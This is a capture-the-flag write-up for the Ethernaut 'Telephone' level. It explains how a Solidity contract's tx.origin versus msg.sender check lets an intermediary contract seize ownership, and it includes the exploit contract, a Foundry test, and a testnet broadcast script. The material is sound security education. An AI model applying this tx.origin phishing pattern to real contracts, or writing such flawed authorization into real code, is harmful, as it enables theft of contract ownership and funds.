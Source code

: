 ## 04. Telephone

<br>


  
<p align="center">
<img width="200" src=""">
</p>

<br>
### tl; dr

<br>

* in this challenge, we exploit the difference between `tx.origin` and `msg.sender` to to *phish* with `tx.origin` and become `owner`.
    - `tx.origin` refers to the EOA that initiated the transaction (which can be many calls ago, and never be a contract), while `msg.sender` is the immediate caller (and can be a contract).

<br>

* fun fact, this type of vulnerability resembles web2's **cross-site request forgery (csrf)**. 
    - exactly a decade ago, when i was getting started in security research and csrf was still heavily in the wild, **[i wrote a modification of apache's `mod_security` to monitoring for it](https://github.com/go-outside-labs/csrf)**. 
    - it's wild how the world has changed in 10 years...

<br>

```solidity 
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```


<br>

---

### discussion

<br>

* `Telephone()` contract is pretty simple. first, it declares a **state variable** called `owner` (state variables have values permanently stored in a contract storage):

<br>

```solidity
address public owner;
```

<br>

* then we have a constructor that defines that the EOA who deploys this contract is its `owner`:

<br>

```solidity
constructor() {
    owner = msg.sender;
}
```

<br>


* finally, we have a function to change the owner, which checks if the caller is not the owner to give the ownership. this function is our target, and to exploit it, we need to make sure that `tx.origin` and `msg.sender` are not the same:

<br>

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
}
```

<br>

* this can be done by creating an intermediary contract that makes a call to `Telephone()`. this is our exploit:

<br>

```solidity
import {Telephone} from "src/04/Telephone.sol";

contract TelephoneExploit {
    
    function run(Telephone level) public {
        level.changeOwner(msg.sender);
  }
}
```

<br>


----

### solution

<br>

* first, we test our solution at `test/04/Telephone.t.sol`:

<br>

```solidity
import "forge-std/Test.sol";
import {Telephone} from "src/04/Telephone.sol";
import {TelephoneExploit} from "src/04/TelephoneExploit.sol";


contract TelephoneTest is Test {

    Telephone public level;

    address instance = vm.addr(0x1); 
    address hacker = vm.addr(0x2); 

    function setUp() public {
        vm.prank(instance);
        level = new Telephone();
    }

    function testTelephoneHack() public {

        vm.startPrank(hacker);
        assertNotEq(level.owner(), hacker);

        TelephoneExploit exploit = new TelephoneExploit();
        exploit.run(level);

        assertEq(level.owner(), hacker);
        vm.stopPrank();
        
    }
}
```

<br>

* by running:

<br>

```shell
> forge test --match-contract TelephoneTest -vvvv    
```



<br>

* once it passes, we submit the solution with `script/04/Telephone.s.sol`:

<br>

```solidity
import "forge-std/Script.sol";
import {Telephone} from "src/04/Telephone.sol";
import {TelephoneExploit} from "src/04/TelephoneExploit.sol";

contract Exploit is Script {

        address levelInstance = 0x63f80459C2CBa9692DFA70eD43c66423a9596c02;
        address hacker = vm.envAddress("PUBLIC_KEY");

        Telephone level = Telephone(levelInstance);        
        
        function run() external {

            vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
            
            TelephoneExploit exploit = new TelephoneExploit();
            exploit.run(level);

            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/04/Telephone.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>

----

<br>

#### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



